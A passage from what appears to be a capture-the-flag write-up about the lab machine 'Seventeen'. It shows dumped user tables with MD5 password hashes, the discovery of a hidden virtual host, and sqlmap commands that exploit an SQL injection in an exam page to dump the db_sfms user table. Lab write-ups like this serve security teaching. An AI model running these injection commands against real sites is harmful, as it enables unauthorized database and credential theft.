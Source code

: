 ```
| 6  | 2    | ../oldmanagement/files/avatar.png | Anthony  | 48bb86d036bb993dfdcf7fefdc60cc06 | UndetectableMark | Mark         | 2021-09-30 16:34:02 | NULL       | 2022-05-10 08:21:39 |
| 7  | 2    | ../oldmanagement/files/avatar.png | Smith    | 184fe92824bea12486ae9a56050228ee | Stev1992         | Steven       | 2022-02-22 21:05:07 | NULL       | 2022-02-24 22:00:24 |
+----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
...[snip]...

```

There’s three users, each with what look like MD5 hashes for the password. [CrackStation](https://crackstation.net/) doesn’t crack any of them.

There’s also paths to the users’ avatars. They each start with `../oldmanagement/files/`.

#### New VHost

There’s a couple databases that I can’t associate with an application at this point. Thinking about how web servers are typically setup, various hosts each have a folder in `/var/www/`. So if ERMS is running out of something like `/var/www/emrs`, then the avatars are linked back to `/var/www/oldmanagement`, which suggests that might be a different virtual host. It’s worth a try - adding `oldmanagement.seventeen.htb` to `/etc/hosts` and visiting in Firefox loads a new login form:

![image-20220503205802532](https://0xdfimages.gitlab.io/img/image-20220503205802532.png)

Surprisingly, there are no exploits in `searchsploit` for this.

Interestingly, the request does redirect to `http://oldmanagement.seventeen.htb:8000/oldmanagement/`. So this app is actually hosted on port 8000.

#### db\_sfms

I couldn’t find a way to past that Login form, but I do have access to the `db_sfms` via the SQL injection, which turns out to be related to this page:

```

oxdf@hacky$ sqlmap -D db_sfms --tables -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
...[snip]...        
Database: db_sfms
[3 tables]
+---------+
| storage |
| user    |
| student |
+---------+
...[snip]...

```

I’ll dump the tables. `user` is interesting since I’m trying to log in:

```

oxdf@hacky$ sqlmap -D db_sfms -T user --dump -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
...[snip]...
Database: db_sfms
Table: user
[3 entries]
+---------+---------------+---------------+------------------+---------------+----------------------------------+
| user_id | status        | lastname      | username         | firstname     | password                         |
+---------+---------------+---------------+------------------+---------------+----------------------------------+
```